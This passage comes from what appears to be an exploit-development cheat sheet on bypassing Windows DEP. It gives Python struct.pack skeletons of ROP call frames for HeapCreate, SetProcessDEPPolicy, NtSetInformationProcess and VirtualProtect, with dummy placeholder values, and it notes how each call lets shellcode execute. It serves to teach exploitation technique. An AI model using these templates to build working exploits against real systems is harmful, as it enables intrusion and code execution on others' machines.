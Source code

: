 >   This allows you to create a new executable memory region, copy your shellcode to it, and execute it. 
>
>   -   This technique may require you to chain 2 APIs.

##### `HeapCreate`

```python3
from struct import pack

hc = pack("<L", 0x55555555)  # dummy HeapCreate Address
hc += pack("<L", 0x56565656) # Return Address after HeapCreate
hc += pack("<L", 0x57575757) # dummy flOptions
hc += pack("<L", 0x58585858) # dummy dwInitialSize
hc += pack("<L", 0x59595959) # dummy dwMaximumSize
```

>   This provides a very similar technique as `VirtualAlloc`, but may require 3 APIs to be chained together.

##### `SetProcessDEPPolicy`

```python3
spd = pack("<L", 0x5A5A5A5A) # dummy SetProcessDEPPolicy Address
spd += pack("<L", 0x5B5B5B5B) # Return Address after SetProcessDEPPolicy
spd += pack("<L", 0x5C5C5C5C) # dummy dwFlags
```

>   This allows you to change the `DEP` policy for the current process (so you can execute the shellcode from the stack).

##### `NtSetInformationProcess`

```python3
nsip = pack("<L", 0x5D5D5D5D) # dummy NtSetInformationProcess Address
nsip += pack("<L", 0x5E5E5E5E) # Return Address after NtSetInformationProcess
nsip += pack("<L", 0x5F5F5F5F) # dummy ProcessHandle
nsip += pack("<L", 0x60606060) # dummy ProcessInformationClass
nsip += pack("<L", 0x61616161) # dummy ProcessInformation
nsip += pack("<L", 0x62626262) # dummy ProcessInformationLength
```

>   This changes the `DEP` policy for the current process so you can execute your shellcode from the stack.

##### `VirtualProtect`

```python3
vp = pack("<L", 0x63636363) # dummy VirtualProtect Address
vp += pack("<L", 0x64646464) # Return Address after VirtualProtect
vp += pack("<L", 0x65656565) # dummy lpAddress
vp += pack("<L", 0x66666666) # dummy dwSize
vp += pack("<L", 0x67676767) # dummy flNewProtect
vp += pack("<L", 0x68686868) # dummy lpflOldProtect
```

>   This changes the access protection level of a given memory page, allowing you to mark the location where your shellcode resides as executable.
